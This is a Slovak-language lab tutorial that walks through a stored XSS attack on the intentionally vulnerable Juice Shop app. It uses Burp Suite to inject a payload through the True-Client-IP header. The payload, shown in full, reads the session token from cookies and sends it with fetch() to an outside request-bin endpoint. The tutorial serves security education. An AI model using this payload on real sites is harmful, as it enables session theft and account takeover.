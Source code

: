 # Stored cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Stored cross site scripting (XSS) je nazývaný stored kvôli tomu, že škodlivý kód je ukladaný v databáze aplikácii a je spustený každý krát keď užívateľ navštívy danú stránku. Ukážeme si krátku ukážku na Juice shop aplikácií.
- Pre tento typ útoku budeme potrebovať taktiež nástroj, ktorý bude zachytávať HTTP požiadavky na server, čo nám umožňuje vidieť a upraviť každú jednu požiadavku. Zaužívaným nástrojom pre tieto potreby je BurSuite 
  (inštalácia - https://portswigger.net/burp/releases/professional-community-2024-2-1-5?requestededition=community&requestedplatform=).
- V Juice shop aplikácií máme samostatnú obrazovku, ktorá zobrazuje poslednú IP adresu z ktorej sme boli prihlásený. Táto posledná IP adresa sa získava z databázy. Pri odhlasovaní z účtu vieme odchytiť požiadavku na odhlásenie
  pomocou BurpSuite a upraviť odosielanú IP adresu, ktorá sa ukladá do databázy.
- Spustíme nástroj BurpSuite a preklikneme sa na tab "Proxy" a následne spustíme "Interceptor" (viď. príloha), ktorý odchytí každý request.


![interceptor](../assets/burp_suite_interceptor.png)

- Škodlivý kód, ktorý vložíme ukradne z cookie súborov aplikácie autentifkačný token a odošle ho na náš vytvorený endpoint (inštalácia https://pipedream.com/requestbin). V ukážke
  v nasledujúcom bode vymeníme endpoint https://eojph9o2kgja7k2.m.pipedream.net v parametri funkcii fetch za endpoint, ktorý sme si teraz vytvorili.
- Pri odchytení požiadavky pridáme do hlavičky requestu ešte jeden atribút True-Client-IP s hodnotou

      iframe src="javascript:const headers = new Headers();headers.append(‘Content-Type‘, ‘text/p-
            lain‘);const body = test: ‘event‘,;const options = method: ‘POST‘,headers,mode: ‘cors‘,body:
            document.cookie.split(‘ ‘)[4].split(‘=‘)[1],;fetch(‘https://eojph9o2kgja7k2.m.pipedream.net‘,
            options);" /iframe

  a požiadavku posunieme na server.
- Pri dalšom prihlasovaní sa pre obrazovku, kde zobrazujeme poslednú IP adresu prihlásenia úž nezobrazí IP adresa ale náš kód, ktorý odošle požidavku na náš server so session tokenom.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/stored-xss.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/stored-xss.mp4)
